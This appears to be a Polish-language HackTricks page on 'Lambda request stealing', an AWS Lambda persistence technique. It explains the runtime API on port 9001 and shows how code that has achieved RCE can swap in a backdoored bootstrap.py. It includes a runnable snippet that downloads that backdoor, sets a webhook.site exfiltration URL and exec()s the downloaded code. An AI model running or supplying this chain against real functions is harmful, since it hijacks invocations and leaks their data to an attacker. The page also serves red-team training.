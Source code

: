 # AWS - Kradzież żądań Lambda

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Przepływ Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** to proces poza kontenerem, który **wysyła** **wywołania** do procesu **init**.
2. Proces init nasłuchuje na porcie **9001**, udostępniając kilka interesujących punktów końcowych:
* **`/2018-06-01/runtime/invocation/next`** – pobierz następne zdarzenie wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – zwróć odpowiedź handlera dla wywołania
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – zwróć błąd wykonania
3. **bootstrap.py** ma pętlę, która pobiera wywołania z procesu init i wywołuje kod użytkownika, aby je obsłużyć (**`/next`**).
4. Na koniec **bootstrap.py** wysyła do init **odpowiedź**

Zauważ, że bootstrap ładuje kod użytkownika jako moduł, więc wszelkie wykonania kodu przez kod użytkownika odbywają się w tym procesie.

## Kradzież żądań Lambda

Celem tego ataku jest sprawienie, aby kod użytkownika wykonał złośliwy proces **`bootstrap.py`** wewnątrz procesu **`bootstrap.py`**, który obsługuje podatne żądanie. W ten sposób złośliwy proces **bootstrap** zacznie **rozmawiać z procesem init**, aby obsługiwać żądania, podczas gdy **legit** bootstrap jest **uwięziony**, uruchamiając złośliwy, więc nie będzie prosił o żądania do procesu init.

To proste zadanie do osiągnięcia, ponieważ kod użytkownika jest wykonywany przez legitny proces **`bootstrap.py`**. Tak więc atakujący mógłby:

* **Wysłać fałszywy wynik bieżącego wywołania do procesu init**, aby init myślał, że proces bootstrap czeka na więcej wywołań.
* Żądanie musi być wysłane do **`/${invoke-id}/response`**
* invoke-id można uzyskać ze stosu legitnego procesu **`bootstrap.py`** za pomocą modułu [**inspect**](https://docs.python.org/3/library/inspect.html) w Pythonie (jak [proponowano tutaj](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) lub po prostu ponownie żądając go do **`/2018-06-01/runtime/invocation/next`** (jak [proponowano tutaj](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Wykonać złośliwy **`boostrap.py`**, który obsłuży następne wywołania
* Dla celów stealthiness możliwe jest wysłanie parametrów wywołań lambda do kontrolowanego przez atakującego C2, a następnie obsługiwanie żądań jak zwykle.
* Do tego ataku wystarczy pobrać oryginalny kod **`bootstrap.py`** z systemu lub [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), dodać złośliwy kod i uruchomić go z bieżącego wywołania lambda.

### Kroki ataku

1. Znajdź lukę **RCE**.
2. Wygeneruj **złośliwy** **bootstrap** (np. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Wykonaj** złośliwy bootstrap.

Możesz łatwo wykonać te działania, uruchamiając:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
For more info check [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## References

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
